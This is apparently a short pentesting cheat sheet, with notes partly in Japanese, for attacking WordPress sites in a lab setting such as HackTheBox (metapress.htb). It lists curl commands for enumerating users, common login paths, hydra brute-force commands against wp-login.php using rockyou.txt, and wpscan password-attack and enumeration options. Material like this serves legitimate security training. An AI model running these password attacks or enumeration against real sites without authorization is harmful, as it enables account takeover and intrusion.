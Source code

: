 ## ## WordPress Enumaration
- Users
```sh
curl -s -I -X GET http://blog.example.com/?author=1
curl http://blog.example.com/wp-json/wp/v2/users
```

- login page directory
	/wp-admin/login.php
	/wp-admin/wp-login.php
	/login.php
	/wp-login.php

- /login page Passsword Attack
```sh
hydra -l <username> -P <password list> <Target hostname> <service module> <post request parameters>

hydra -l admin -P /usr/share/wordlists/rockyou.txt metapress.htb http-post-form "/wp-login.php:log=admin&pwd=admin:Error: The password you entered for the username admin is incorrect. Lost your password?" -vV -f
```
---
## ## wpscan
### ### password attack
```
wpscan --url http://metapress.htb/ -P /usr/share/wordlists/xato-net-10-million-passwords-10000.txt --username admin
```

### ### wpscan enumeration
```
wpscan --url http://metapress.htb/ --enumerate
	指定がない場合は:「vp,vt,tt,cb,dbe,u,m」が適用される。
	その他のオプション
		vp (Vulnerable plugins) 脆弱なプラグイン
		ap (All plugins)　全てのプラグイン
		p (Popular plugins)　人気のプラグイン
		vt (Vulnerable themes)　脆弱なテーマ
		at (All themes)　全てのテーマ
		t (Popular themes)　人気のテーマ
		tt (Timthumbs) Timthumbファイル
		cb (Config backups)　wp-configのバックアップ
		dbe (Db exports)　DBバックアップ
		u (User IDs range. e.g: u1-5)　ユーザー名　u1-5とするとIDのレンジ
		m (Media IDs range. e.g m1-15)　メディア　m1-5とするとIDのレンジ
```
